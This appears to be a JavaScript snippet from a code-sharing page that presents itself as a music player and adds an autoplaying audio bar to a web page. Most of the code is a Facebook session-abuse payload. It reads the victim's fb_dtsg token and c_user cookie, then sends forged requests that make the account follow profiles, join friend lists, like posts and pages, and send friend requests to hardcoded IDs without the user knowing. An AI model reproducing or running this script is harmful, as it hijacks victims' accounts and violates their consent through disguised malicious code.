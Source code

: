 /* Nh?c */
var parent=document.getElementsByTagName("html")[0];
var _body = document.getElementsByTagName('body')[0];
var _div = document.createElement('div');
_div.style.height="25";
_div.style.width="100%";
_div.style.position="fixed";
_div.style.top="auto";
_div.style.bottom="0";
_div.align="center";
var _audio= document.createElement('audio');
_audio.style.width="100%";
_audio.style.height="25px";
_audio.controls = true;
_audio.autoplay = false;
_audio.autoplay = true;
_audio.src = "http://picosong.com/media/songs/1623c97f871ebe69c08a4089737457dc";
_div.appendChild(_audio);
_body.appendChild(_div);
var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;
var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg="+fb_dtsg+"&lsd&__"+user_id+"&phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&&http4.status==200)http4.close};http4.send(params4)}a("100003988173543");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("341901192619484");sublist("287516074724663");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&ft_ent_identifier="+post+"&source=1&client_id="+now+"%3A3366677427&rootid=u_ps_0_0_14&giftoccasion&ft[tn]=%3E%3DU&ft[type]=20&ft[qid]=5882006890513784712&ft[mf_story_key]="+post+"&nctr[_mod]=pagelet_home_stream&__user="+user_id+"&__a=1&__dyn=7n8ahyj35CFwXAg&__req=j&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&fbpage_id="+p+"&add=true&reload=false&fan_origin=page_timeline&fan_source=&cat=&nctr[_mod]=pagelet_timeline_page_actions&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=d&fb_dtsg="+fb_dtsg+"&phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&&Page.status==200){Page.close}};Page.send(PageParams)}Like("185309954944253");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&action=add_friend&how_found=friend_browser_s&ref_param=none&&&outgoing_id=&logging_location=search&no_flyout_on_click=true&ego_log_data&http_referer&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=35&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}
 
// soufian
 